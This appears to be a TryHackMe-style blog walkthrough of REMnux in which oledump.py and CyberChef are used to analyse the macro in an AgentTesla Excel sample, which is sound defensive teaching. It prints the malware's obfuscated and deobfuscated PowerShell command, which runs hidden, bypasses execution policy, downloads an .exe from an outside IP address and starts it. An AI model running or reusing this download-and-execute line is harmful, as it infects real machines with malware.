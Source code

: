 ```yaml
---
layout: post
title: "REMnux: Getting Started"
date: 2025-07-29 09:00:00 -0700
categories: [Malware Analysis, Reverse Engineering, Blue Team]
tags: [THM, REMnux, Malware Analysis, Reverse Engineering, Linux, DFIR]
description: Learn how to use the tools included in the REMnux virtual machine for malware analysis and reverse engineering. Explore its capabilities through the TryHackMe REMnux: Getting Started room.
---
```


> **Note**
> The REMnux VM is a specialised Linux distro. It already includes tools like Volatility, YARA, Wireshark, oledump, and INetSim. It also provides a sandbox-like environment for dissecting potentially malicious software without risking your primary system. It's your lab set up and ready to go without the hassle of manual installations.

## File Analysis

In this task, we will use `oledump.py` to conduct static analysis on a potentially malicious Excel document. 

`Oledump.py` is a Python tool that analyzes **OLE2** files, commonly called Structured Storage or Compound File Binary Format. OLE stands for **Object Linking and Embedding**, a proprietary technology developed by Microsoft. OLE2 files are typically used to store multiple data types, such as documents, spreadsheets, and presentations, within a single file. This tool is handy for extracting and examining the contents of OLE2 files, making it a valuable resource for forensic analysis and malware detection.

Let's start!
Using the virtual machine attached to task 2, the **REMnux VM**, navigate to the `/home/ubuntu/Desktop/tasks/agenttesla/` directory. Our target file is named `agenttesla.xlsm`. Run the command `oledump.py agenttesla.xlsm`. See the terminal below.

```bash
ubuntu@10.10.151.80:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm 
A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
 ```

Based on OleDump's file analysis, a VBA script might be embedded in the document and found inside `xl/vbaProject.bin`. Therefore, oledump will assign this with an index of A, though this can sometimes differ. The A (index) +Numbers are called data streams. 

Now, we should be aware of the data stream with the capital letter M. This means there is a Macro, and you might want to check out this data stream, `'VBA/ThisWorkbook'`.

So, let's check it out! Let's run the command `oledump.py agenttesla.xlsm -s 4`. This command will run the oledump and look into the actual data stream of interest using the parameter `-s 4`,  wherein the `-s` parameter is short for `-select`  and the number four(4) as the data stream of interest is in the 4th place(`A4: M 688 'VBA/ThisWorkbook'`)

```bash
ubuntu@10.10.151.80:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4
```

The results above are in hex dump format. There might be some familiar words from a trained eye. However, this is still challenging for us, don't you think? So, let's make it more readable and easier to understand.

We will run an additional parameter `--vbadecompress` in addition to the previous command. When we use this parameter, oledump will automatically decompress any compressed VBA macros it finds into a more readable format, making it easier to analyze the contents of the macros.

```bash
ubuntu@10.10.151.80:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

Now, we don't need to be able to read the whole script but rather familiarize ourselves with some characters and commands. Our interest here would be the value of Sqtnew because if you check the script, there is a Public IP, a PDF, and a .exe inside. We might want to look into this further.

```text
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
```

We will copy the first value of `Sqtnew` and paste it into **CyberChef's** input area. You can open a local copy of CyberChef inside the REMnux VM or go to this [link](https://gchq.github.io/CyberChef/) to access the online version. Use whichever works for you. You might want to check our room about CyberChef to get more familiar with the tool.

Next, select the **Find/Replace** operation twice. Looking back at the script, the 2nd and 3rd values of Sqtnew have a command to replace * with "" and ^ with "". We would assume that the "" means there is no value. So, with our first operation selected, we put the value * and selected SIMPLE STRING as additional parameters. In contrast, we did not put anything on the Replace box or have any value.  The same applies to our second operation: we put the value ^ and selected SIMPLE STRING, and the replace box has no value. See the image below.

CyberChef using Find/Replace twice to fix PowerShell script.

Now, this is more readable! However, for our starters, this can be challenging. So, we will tackle the most basic commands here.

```powershell
"powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"
Let's break it down!
```

- So, in PowerShell, running the `-WindowStyle` parameter allows you to control how the PowerShell window appears when executing a script or command. In this case, `hidden` means that the PowerShell window won’t be visible to the user.
- By default, PowerShell restricts script execution for security reasons. The `-executionpolicy` parameter allows you to override this policy. The bypass means that the execution policy is temporarily ignored, allowing any script to run without restriction.
- The `Invoke-WebRequest` is commonly used for downloading files from the internet.
 - The `-Uri` Specifies the URL of the web resource you want to retrieve. In our case, the script is downloading the resource `Doc-3737122pdf.exe` from `http://193.203.203.67/rt/`.
 - The `-OutFile` specifies the local file where the downloaded content will be saved.  In this case, the Doc-3737122pdf.exe will be saved to $TempFile.
- The Start-Process is used to execute the downloaded file that is stored in $TempFile after the web request.

To summarize, when the document `agenttesla.xlsm` is opened, a Macro will run! This Macro contains a VBA script. The script will run and will be running a PowerShell to download a file named `Doc-3737122pdf.exe` from `http://193.203.203.67/rt/`, save it to a variable $TempFile, then execute or start running the file inside this variable, which is a binary or a .exe file (`Doc-3737122pdf.exe`). This is a usual technique used by threat actors to avoid early detection. Pretty nasty, right?!

